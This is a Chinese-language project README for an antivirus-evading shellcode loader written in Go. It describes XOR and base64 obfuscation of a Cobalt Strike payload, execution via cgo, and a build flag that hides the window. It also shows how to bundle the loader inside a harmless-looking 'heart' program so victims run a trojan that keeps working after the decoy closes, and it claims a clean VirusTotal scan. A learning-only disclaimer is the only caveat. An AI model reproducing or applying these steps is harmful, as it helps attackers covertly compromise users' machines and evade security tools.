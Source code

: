 #          基于Go语言的shellcode免杀加载器

### 本项目使用go的1.23版本，gcc为8.1.0版本。

**郑重声明：文中所涉及的技术、思路和工具仅供以安全为目的的学习交流使用，任何人不得将其用于非法用途以及盈利等目的，否则后果自行承担！**

### 1.项目中使用CS获取payload的c语言代码，获取代码中的十六进制内容，然后放到go中进行随机生成key进行xor异或加密然后进行base64加密。

### 2.在加载器代码中将key和加密代码获取然后使用base64解密后使用key进行xor解密为十六进制代码。

### 3.之后调用cgo来使用c语言进行命令的运行。

## 示例：

#### 1.获取payload c语言

![173712](./image/173712.png)

#### 2.获取十六进制数据和加密

将/* length: 893 bytes */
unsigned char buf[] = "  和最后的";删除。只保留十六机制代码

![174226](\image\174226.png)

将代码写为xoor.go的命令行参数

go run xoor.go \xfc\x48\x83\xe4\xf0\xe8\xc8\x00\x00\x00\x41\x51\x41

后面为完整的十六进制代码，运行得到

![174646](image\174646.png)

保存key和加密的code。

#### 3.使用xooor.go解密代码并调用cgo进行加载。

将key和code复制到xooor.go的key1和payload1参数中，然后

go build -ldflags="-H windowsgui" xooor.go 进行exe编译并指定启动时在后台启动不生成命令行窗口。

#### 4.测试

![175902](image\175902.png)



### 如果觉得就是一个exe而且点击后没有反应别人不会上当，那么可以将shellcode加载器嵌入到爱心代码中。

首先将xooor.go生成的隐藏命令行caiquan.exe放入到hello.go的相同目录，然后

```go
caiquanExePath := "caiquan.exe"
```

```go
tempCaiquanExe, err := os.CreateTemp("", "caiquan-*.exe")
```

中设置你的程序名称

最后 go build -o love.exe hello.go则可以生成木马在后台运行的爱心代码。

![181625](image\181625.png)

![181005](image\181005.png)

shellcode会在用户设置的临时文件夹中运行，结束爱心代码shellcode也不会结束。

## 免杀测试

打开(https://www.virustotal.com/gui/home/upload)

网站上传love.exe进行杀毒检测

![6fe27](image\6fe27.png)

全部绕过。

虽然能绕过shellcode识别但是应用会被识别为未知应用，如果有能力可以尝试数字签名等认证方式。
